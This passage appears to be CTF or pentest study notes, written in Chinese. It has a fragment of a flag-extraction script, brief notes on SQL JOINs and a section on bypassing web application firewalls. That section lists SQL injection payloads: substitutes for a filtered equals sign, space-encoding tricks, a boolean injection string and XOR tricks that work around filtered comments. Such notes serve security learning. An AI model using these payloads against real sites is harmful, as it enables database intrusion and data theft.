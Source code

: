 ```python
            flag += j
            print("flag=",flag)
            break
        else:
            pass
```

### join

RIGHT JOIN 会读取右边数据表的全部数据，即使左边边表无对应数据
MySQL LEFT JOIN 会读取左边数据表的全部数据，即使右边表无对应数据
INNER JOIN(也可以省略 INNER 使用 JOIN，效果一样)来连接以上两张表来读取a表中所有x字段在b表对应的y字段值

### WAF绕过

#### 过滤等号

```sql
> 
<
between a and b
in
like
rlike
regexp
and
or
case
xor
````

#### 大小写绕过

直接大小写绕过 没什么好说的

#### 空格绕过

`%09 %0a %0b %0c %0d %a0 /**/ ()`

直接查

```bash
id='-1'or(id=26)and'1' limit 1;
也就是
(id='-1') or ((id=26) and '1') limit 1;
前面为0，后面为1，所以整个条件为1
```

#### 过滤注释

`%00`
异或

```sql
select 1^1^1; # 1
select 1^0^1; # 0
select 1^(ascii('a') - 96)^1; # 1
select 1^(ascii('a') - 97)^1; # 0
-- 过滤注释
select * where id = '1'^(ascii('a') - 97)^'1' # 1
select * where id = '1'^(ascii('a') - 96)^'1' # 0
```

